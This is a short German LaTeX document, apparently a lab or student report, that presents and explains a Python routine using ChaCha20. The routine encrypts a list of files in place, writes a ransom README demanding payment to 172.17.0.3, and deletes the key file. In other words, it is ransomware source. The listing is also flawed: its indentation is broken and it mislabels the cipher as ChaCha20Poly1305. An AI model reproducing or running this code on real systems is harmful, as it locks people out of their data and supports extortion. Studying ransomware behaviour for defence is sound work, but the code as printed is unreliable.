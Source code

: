 \documentclass[12pt]{article}
\begin{document}
Insgesamt ist ChaCha20 ein zuverlässiger und effizienter Stromchiffre-Algorithmus, der in verschiedenen Anwendungen eingesetzt wird, einschließlich der Verschlüsselung von Netzwerkdaten, der sicheren Kommunikation und der Datenspeicherung.
\newpage
\begin{figure}[]
\caption{Python Verschlüsselungsfunktion }
\begin{lstlisting}[language=python, style=code]
def encrypt_file_chacha20(key, input_file, output_file):
	# Generiere einen zufaelligen Nonce
	nonce = os.urandom(16)

	# Erstellen einer ChaCha20Poly1305-Verschluesselungsinstanz mit dem Schluessel und Nonce
	cipher = Cipher(algorithms.ChaCha20(key, nonce), mode=None, backend=default_backend()).encryptor()

	# Lesen des Inhalts der Eingabedatei
	with open(input_file, 'rb') as file:
	plaintext = file.read()

	# Verschluesseln der Daten
	ciphertext = cipher.update(plaintext) + cipher.finalize()

	# Schreiben von Nonce und verschluesselten Daten in die Ausgabedatei
	with open(output_file, 'wb') as file:
	file.write(nonce + ciphertext)

	with open("chkey.txt","rb") as keyfile:
		key =  keyfile.read()

	with open("testdaten.txt", "r") as file:
		for line in file:
			line = line.rstrip("\n")
			encrypt_file_chacha20(key, line, line)
	
	readme = open("README","w")
	readme.write("Your System has been encrypted, please send a file called 'payment' with 1 to 172.17.0.3 : pw: root in order to receive the decryption key")
	#loesche keyfile
	os.remove("/chkey.txt")
		\end{lstlisting}			
		\end{figure}
		Die Funktion 'encrypt\_file\_chacha20' führt die eigentliche Verschlüsselung durch(vgl. Figure 5).
Zuerst wird ein zufälliger Nonce (Number used once) generiert. Der Nonce ist eine zufällige Zahl, die einmalig für jede Verschlüsselung verwendet wird. Der Nonce wird in diesem Fall mit os.urandom(16) erzeugt(vgl.Zeile 3).
Eine Instanz der ChaCha20Poly1305-Verschlüsselung wird mit dem Schlüssel und dem Nonce erstellt. Der Schlüssel wird als Parameter an die algorithms.ChaCha20-Klasse übergeben. Die Instanz wird als cipher bezeichnet(vgl. Zeile 6).
Der Inhalt der Eingabedatei wird gelesen und in plaintext gespeichert. Die Eingabedatei wird mit open(input\_file, 'rb') geöffnet, um sie im binären Modus zu lesen(vgl. Zeile 8).
Die Daten werden mit dem ChaCha20-Verschlüsselungsalgorithmus verschlüsselt(vgl. Zeile 13). Der cipher.update(plaintext)-Aufruf verschlüsselt den gesamten Inhalt der Datei und cipher.finalize() beendet den Verschlüsselungsvorgang. Das Ergebnis der Verschlüsselung wird in ciphertext gespeichert(vgl. Zeile 17).
Der restliche Teil des Codes öffnet die Datei "chkey.txt" im binären Modus, um den Schlüssel zu lesen. Anschließend wird die Datei "testdaten.txt" im Textmodus geöffnet und jede Zeile wird in der Schleife verarbeitet. Für jede Zeile wird die Funktion encrypt\_file\_chacha20 aufgerufen, um die entsprechende Datei mit dem gelesenen Schlüssel zu verschlüsseln.
\end{document}
